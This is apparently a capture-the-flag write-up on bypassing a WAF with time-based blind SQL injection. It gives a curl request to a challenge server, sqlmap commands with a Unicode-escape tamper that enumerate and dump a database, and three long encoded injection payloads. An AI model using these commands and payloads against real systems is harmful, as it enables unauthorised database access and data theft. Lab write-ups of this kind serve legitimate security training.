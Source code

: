 Accessed the page and we can see this code.
 
This code has vulnerabilities. The script ends immediately when any of the characters in function waf

![](imgs/p1.png)

**curl http://46.101.23.188:32464 / -X POST -d '{"user":"data"}' -x http://127.0.0.1:8080**

Captured the curl request in burp.
Now, at user parameter, use a time based sql payload. It doesn’t seem to work. Now use it with UTF-16 encoding and it works.

![](imgs/p2.png)

Now, make a file request.txt with this request header and use * at payload

![](imgs/p3.png)

Use sqlmap to generate payload.

**sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**

\u0068\u0065\u006c\u006c\u006f\u0027 \u0041\u004e\u0044 \u0028\u0053\u0045\u004c\u0045\u0043\u0054 \u0036\u0033\u0030\u0036 \u0046\u0052\u004f\u004d \u0028\u0053\u0045\u004c\u0045\u0043\u0054\u0028\u0053\u004c\u0045\u0045\u0050\u0028\u0033\u002d\u0028\u0049\u0046\u0028\u004f\u0052\u0044\u0028\u004d\u0049\u0044\u0028\u0028\u0053\u0045\u004c\u0045\u0043\u0054 \u0044\u0049\u0053\u0054\u0049\u004e\u0043\u0054\u0028\u0049\u0046\u004e\u0055\u004c\u004c\u0028\u0043\u0041\u0053\u0054\u0028\u0073\u0063\u0068\u0065\u006d\u0061\u005f\u006e\u0061\u006d\u0065 \u0041\u0053 \u004e\u0043\u0048\u0041\u0052\u0029\u002c\u0030\u0078\u0032\u0030\u0029\u0029 \u0046\u0052\u004f\u004d \u0049\u004e\u0046\u004f\u0052\u004d\u0041\u0054\u0049\u004f\u004e\u005f\u0053\u0043\u0048\u0045\u004d\u0041\u002e\u0053\u0043\u0048\u0045\u004d\u0041\u0054\u0041 \u004c\u0049\u004d\u0049\u0054 \u0034\u002c\u0031\u0029\u002c\u0034\u002c\u0031\u0029\u0029\u003e\u0031\u002c\u0030\u002c\u0033\u0029\u0029\u0029\u0029\u0029\u0066\u0078\u0074\u0069\u0029\u002d\u002d \u0059\u006c\u0069\u0047

![](imgs/p4.png)

Select database db_m8452

**sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**
\u0068\u0065\u006C\u006C\u006F\u0027\u0020\u0041\u004E\u0044\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0033\u0038\u0037\u0038\u0020\u0046\u0052\u004F\u004D\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0028\u0053\u004C\u0045\u0045\u0050\u0028\u0036\u002D\u0028\u0049\u0046\u0028\u004F\u0052\u0044\u0028\u004D\u0049\u0044\u0028\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0049\u0046\u004E\u0055\u004C\u004C\u0028\u0043\u0041\u0053\u0054\u0028\u0074\u0061\u0062\u006C\u0065\u005F\u006E\u0061\u006D\u0065\u0020\u0041\u0053\u0020\u004E\u0043\u0048\u0041\u0052\u0029\u002C\u0030\u0078\u0032\u0030\u0029\u0020\u0046\u0052\u004F\u004D\u0020\u0049\u004E\u0046\u004F\u0052\u004D\u0041\u0054\u0049\u004F\u004E\u005F\u0053\u0043\u0048\u0045\u004D\u0041\u002E\u0054\u0041\u0042\u004C\u0045\u0053\u0020\u0057\u0048\u0045\u0052\u0045\u0020\u0074\u0061\u0062\u006C\u0065\u005F\u0073\u0063\u0068\u0065\u006D\u0061\u003D\u0030\u0078\u0036\u0034\u0036\u0032\u0035\u0066\u0036\u0064\u0033\u0038\u0033\u0034\u0033\u0035\u0033\u0032\u0020\u004C\u0049\u004D\u0049\u0054\u0020\u0031\u002C\u0031\u0029\u002C\u0036\u002C\u0031\u0029\u0029\u003E\u0031\u002C\u0030\u002C\u0036\u0029\u0029\u0029\u0029\u0029\u0043\u006D\u0074\u006D\u0029\u002D\u002D\u0020\u0065\u0042\u0078\u0062
 
![](imgs/p5.png)

**sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**
\u0064\u0027\u0020\u0041\u004E\u0044\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0032\u0033\u0031\u0034\u0020\u0046\u0052\u004F\u004D\u0020\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0028\u0053\u004C\u0045\u0045\u0050\u0028\u0036\u002D\u0028\u0049\u0046\u0028\u004F\u0052\u0044\u0028\u004D\u0049\u0044\u0028\u0028\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0049\u0046\u004E\u0055\u004C\u004C\u0028\u0043\u0041\u0053\u0054\u0028\u0066\u006C\u0061\u0067\u0020\u0041\u0053\u0020\u004E\u0043\u0048\u0041\u0052\u0029\u002C\u0030\u0078\u0032\u0030\u0029\u0020\u0046\u0052\u004F\u004D\u0020\u0064\u0062\u005F\u006D\u0038\u0034\u0035\u0032\u002E\u0064\u0065\u0066\u0069\u006E\u0069\u0074\u0065\u006C\u0079\u005F\u006E\u006F\u0074\u005F\u0061\u005F\u0066\u006C\u0061\u0067\u0020\u004F\u0052\u0044\u0045\u0052\u0020\u0042\u0059\u0020\u0066\u006C\u0061\u0067\u0020\u004C\u0049\u004D\u0049\u0054\u0020\u0030\u002C\u0031\u0029\u002C\u0033\u0034\u002C\u0031\u0029\u0029\u003E\u0031\u002C\u0030\u002C\u0036\u0029\u0029\u0029\u0029\u0029\u0049\u004F\u0077\u0074\u0029\u002D\u002D\u0020\u0054\u004B\u006B\u0078

![](imgs/p6.png)
  	
